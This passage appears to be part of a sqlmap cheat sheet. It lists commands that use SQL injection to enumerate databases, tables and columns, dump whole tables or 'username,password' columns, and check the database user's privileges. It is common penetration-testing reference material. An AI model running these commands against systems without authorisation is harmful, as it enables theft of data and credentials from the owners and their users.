 ### Database Discovery
```bash
# List all databases
sqlmap -r request.txt --dbs

# Get current database
sqlmap -r request.txt --current-db

# Specify database system (optimization)
sqlmap -r request.txt --dbms=mysql
sqlmap -r request.txt --dbms=postgresql
sqlmap -r request.txt --dbms=mssql
```

### Table Enumeration
```bash
# List tables in specific database
sqlmap -r request.txt -D database_name --tables

# List tables in current database
sqlmap -r request.txt --tables
```

### Column Enumeration
```bash
# List columns in specific table
sqlmap -r request.txt -D database_name -T table_name --columns

# List columns (current db)
sqlmap -r request.txt -T table_name --columns
```

### Data Extraction
```bash
# Dump entire table
sqlmap -r request.txt -D database_name -T table_name --dump

# Dump specific columns
sqlmap -r request.txt -D database_name -T table_name -C "username,password" --dump

# Dump all data from database
sqlmap -r request.txt -D database_name --dump-all

# Dump with conditions
sqlmap -r request.txt -D database_name -T table_name --where="id>100" --dump
```

## System Information

### User & Privileges
```bash
# Get current user
sqlmap -r request.txt --current-user

# Check if current user is DBA
sqlmap -r request.txt --is-dba

# List all database users
sqlmap -r request.txt --users

# Get user privileges
sqlmap -r request.txt --privileges

```